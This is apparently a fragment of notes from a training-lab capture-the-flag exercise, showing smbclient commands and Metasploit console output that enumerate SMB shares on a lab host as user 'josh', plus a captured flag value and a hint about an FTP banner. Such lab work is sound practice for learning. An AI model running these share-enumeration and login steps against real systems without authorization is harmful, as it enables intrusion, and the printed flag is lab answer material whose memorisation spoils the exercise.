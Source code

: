 # RPC
smbclient \\\\target.ine.local\\IPC$ -U josh

smbclient -U josh \\\\target.ine.local\\josh
 cat flag2.txt                                                                                                                                          
FLAG2{ae657b0b74704803966effda77507457}

Psst! I heard there is an FTP service running. Find it and check the banner.
msf6 auxiliary(scanner/smb/smb_login) > smbclient -L //target.ine.local -U josh
[*] exec: smbclient -L //target.ine.local -U josh

Password for [WORKGROUP\josh]:

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        IPC$            IPC       IPC Service (target server (Samba, Ubuntu))

